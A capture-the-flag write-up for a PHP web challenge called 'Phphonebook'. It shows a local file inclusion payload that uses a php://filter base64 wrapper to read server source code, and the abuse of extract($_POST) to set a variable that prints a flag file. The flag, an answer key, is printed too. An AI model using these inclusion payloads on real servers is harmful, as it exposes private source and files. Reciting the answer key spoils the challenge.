



# Phphonebook

## Problem

```
Ring ring! Need to look up a number? This phonebook has got you covered! But you will only get a flag if it is an emergency!

Connect here:
http://jh2i.com:50002
```

## Solution

Accessing the main page, we get this message:



This hints to us that we should be doing a LFI. We try `http://jh2i.com:50002/index.php?file=phphonebook.php` and it 
gives us this new page:



We obtain the base64 encoded version of the phphonebook.php page at
 ```
http://jh2i.com:50002/index.php/?file=php://filter/convert.base64-encode/resource=phphonebook.php
```

Decoding it reveals a hidden function:

```
    <div id="php_container">
    <?php
      extract($_POST);

    	if (isset($emergency)){
    		echo(file_get_contents("/flag.txt"));
    	}
    ?>
  </div>
```

This function checks if a local variable `emergency` is set, printing the flag if it does. Using burpsuite, we 
manipulate the query to set `emergency` to 1. Response contains the flag.



**Flag**: `flag{phon3_numb3r_3xtr4ct3d}`